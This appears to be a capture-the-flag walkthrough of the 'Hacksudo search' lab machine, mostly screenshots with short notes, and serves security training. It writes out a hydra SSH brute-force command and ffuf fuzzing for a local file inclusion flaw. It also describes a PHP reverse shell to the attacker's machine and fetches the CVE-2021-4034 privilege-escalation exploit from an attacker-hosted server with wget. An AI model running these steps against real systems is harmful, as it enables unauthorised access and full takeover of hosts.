# Exercise 1: Hacksudo search





Nikto:  


.env might reveal some juicy info



MySQL credentials. However, port 3306 is not open, so there is no way to remotely access mysql database

SSH does not use the same credentials  


SSH brute force: hydra -l hiraman -P /home/kali/rockyou.txt ssh://192.168.50.18

APP_key decoded:  


Enumerate further

dirbuster:  


search.php and submit.php webpage only shows a button saying Submit Query, no field input. Leads to a google search

index.php:  


entering anything leads to search.php website which leads to the google search

robots.txt:



/accounts/ directory full of empty files, except for deleterecord.php:  


search1.php:  


Similar site to search.php



Possible attack vector: local file inclusion attack

Using ffuf:  
ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u <http://192.168.50.18/search1.php?FUZZ=contact.php> -c -v  


Ignore 2918 size responses by adding -fs 2918 flag and speed up the task by adding -t 200 (uses 200 threads)

ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u <http://192.168.50.18/search1.php?FUZZ=contact.php> -c -v -fs 2918 -t 200



Try to read files with me?=\<filename\> keyword



Seems like we can read system files.

It also reads contents of webpage. Might be able to get reverse shell if we host a php reverse shell script



Edit reverse shell file so it points to Kali IP







Find writable directories



Download linpeas, chmod so it’s executable and run it





Download CVE-2021-4034 exploit onto kali: wget <https://codeload.github.com/berdav/CVE-2021-4034/zip/main> (saved as a zip file)

Host zip file on our web server, then wget 192.168.50.5/main.zip on target

unzip main.zip

go into new directory and run ‘make’




